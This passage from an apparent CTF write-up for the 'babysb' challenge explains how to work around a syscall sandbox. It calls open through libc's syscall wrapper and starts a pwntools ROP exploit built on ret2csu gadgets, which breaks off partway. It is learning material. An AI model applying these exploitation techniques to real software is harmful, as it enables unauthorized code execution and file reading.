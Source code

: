 Another problem pops up (for me at least), because my `libc.so.6` cannot find `open`, it finds `open64` instead.  
This just kills the process because of the bad syscall.  
For this reason, we could call `syscall` in order to call `open`.  
```asm
   0x7faea3650f40 <syscall>                mov    rax, rdi
   0x7faea3650f43 <syscall+3>              mov    rdi, rsi
   0x7faea3650f46 <syscall+6>              mov    rsi, rdx
   0x7faea3650f49 <syscall+9>              mov    rdx, rcx
   0x7faea3650f4c <syscall+12>             mov    r10, r8
   0x7faea3650f4f <syscall+15>             mov    r8, r9
   0x7faea3650f52 <syscall+18>             mov    r9, qword ptr [rsp + 8]
   0x7faea3650f57 <syscall+23>             syscall 
```
This is how syscall works when called.  
In order to call `open`, we need to set registers at certain values.  
Link: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/  
What we need is:  
* `rax`: 2 (`rdi`-> 2)
* `rdi`: flag_addr (`rsi`-> flag_addr)
* `rsi`: 0 (`rdx`-> 0)  

to make a `syscall` to `open`.  
After that, we call `read` and `write` normally to print the flag.  


### Exploit
```python
#!/usr/bin/python3
from pwn import *

filename = './babysb'
_libc = '/lib/x86_64-linux-gnu/libc.so.6'

def pwn():

   r = process(filename)
   e = ELF(filename, checksec = False)
   libc = ELF(_libc)
   rop = ROP(e)
   libc_rop = ROP(libc)

   '''
   gadget 1
   0x0000000000400c1a <+90>:  pop    rbx
   0x0000000000400c1b <+91>:  pop    rbp
   0x0000000000400c1c <+92>:  pop    r12
   0x0000000000400c1e <+94>:  pop    r13
   0x0000000000400c20 <+96>:  pop    r14
   0x0000000000400c22 <+98>:  pop    r15
   0x0000000000400c24 <+100>: ret 

   gadget 2
   0x0000000000400c00 <+64>:  mov    rdx,r13
   0x0000000000400c03 <+67>:  mov    rsi,r14
   0x0000000000400c06 <+70>:  mov    edi,r15d
   0x0000000000400c09 <+73>:  call   QWORD PTR [r12+rbx*8]
   0x0000000000400c0d <+77>:  add    rbx,0x1
   0x0000000000400c11 <+81>:  cmp    rbx,rbp
   0x0000000000400c14 <+84>:  jne    0x400c00 <__libc_csu_init+64>
   0x0000000000400c16 <+86>:  add    rsp,0x8
   '''

   # Addresses of read - write - open
   write_libc = libc.symbols['write']
```